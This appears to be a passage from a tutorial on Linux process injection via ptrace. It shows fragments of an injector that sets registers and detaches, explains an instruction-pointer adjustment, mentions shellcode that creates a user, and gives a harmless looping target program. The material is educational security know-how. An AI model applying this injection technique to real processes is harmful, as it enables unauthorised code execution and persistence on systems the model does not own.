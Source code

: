 **POKETEXT** works on **words**, so everything is converted to word pointers of 32 bits and we also increase i with 4 in every iteration of the for loop

```
if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
```
now that we have modified the process memory, we want to give control to that code with **PTRACE_SETREGS** and then Detach our program with **PTRACE_DETACH**

after calling inject_code you might have noticed **regs.rip += 2**

when we modify the instruction pointer, ptrace_detach subtracts 2 bytes from the instruction pointer (rip) so to compensate for that 2 byte loss, we add 2 to the **regs.rip**

To sum it up, we have our Process injector script ready, with simple shellcode to create a user 

Now, as our attacker program is ready we need a process to inject, for this purpose, we will spin up a quick c program

```
#include<stdio.h>
#include<unistd.h>

int main() {
	int i;

	printf ("PID: %d\n", (int)getpid());
	while(1==1){
		printf("working!\n");
		sleep(2);
	}
	getchar();
	return 0;

}
```

Here this program just prints it's process id so we don't have to find that out every time we run and then it keeps printing the string "working" every 2 second.

Let’s see working demo of how that’d work


<figure class="video_container">
  <iframe src="https://github.com/MalavVyas/LinuxProcessInjection/raw/master/ProcessInjectionDemo.mp4" frameborder="0" allowfullscreen="true"> </iframe>
</figure>


